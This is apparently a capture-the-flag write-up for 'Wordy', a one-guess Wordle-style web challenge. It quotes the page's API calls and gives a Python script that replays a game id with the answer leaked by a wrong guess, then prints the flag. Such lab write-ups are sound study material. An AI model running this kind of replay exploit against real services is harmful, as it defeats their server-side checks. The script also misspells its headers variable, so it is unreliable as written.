

# Wordy

Author: Tsuto

## Description

A word guessing game that we are all familiar with in 2022. However, this one is stuck in hard mode and only allows you to make one guess. If you can correctly guess the word then you get a prize!

## Solution

This challenge is based off of wordle. The problem with wordle is that there is an easy way to get the question right every time. In the game's JS there is an array of words that are used in sequential order so that if the previous day's word is known then the current word is also known. This method however, does not apply to this challenge

Analysising the JS source in the page shows that there are 2 requests made for each guess.

1. A request to `/api/game` to generate the game id
2. A request to `/api/guess` to check if the word is correct

```js
const getGame = async() => {
    // Cut above

    await fetch(`/api/game`, {
        method: 'GET',
    })

    // Cut below
}

const checkGuess = async() => {
    // Cut above
    
    await fetch(`/api/guess`, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({guess: guessString, game_id: gameId}),
        credentials: 'same-origin',
    })

    // Cut below
}
```

The response to each guess will include the correct answer if the guess is incorrect. 


This means that we could resend the same game code with the correct answer and potentially get it right. However, when this is done, the server reply states that all game codes are removed after a set amount of time.



To work around this timer a script can be written to speed up the process of resending the request. In total the script must do 3 things:

1. Get a new game code by making a `GET` request to `/api/game`
2. Send an inccorect guess with the new game code to `/api/guess`
3. retrieve the correct word and resend the request to get the flag.

```python
import requests

url = "https://uscg-web-wordy-w7vmh474ha-uc.a.run.app:443"
game = "/api/game"
guess = "/api/guess"

haeders = {"Content-Type": "application/json"}

# Get game ID
r = requests.get(url + game)
game_id = r.text[12:-3]

data = {"game_id": game_id, "guess": "lmaoo"} # Random incorrect guess

# Send incorrect guess and retrieve correct word
r = requests.post(url + guess, headers=headers, json=data)
word = r.text[-10:-5]

data = {"game_id": game_id, "guess": word} # Correct guess for ID

# Send data and print out flag
r = requests.post(url + guess, headers=headers, json=data)
print(r.text)
```

Flag: `USCG{1ucky_gu355_l0l}`
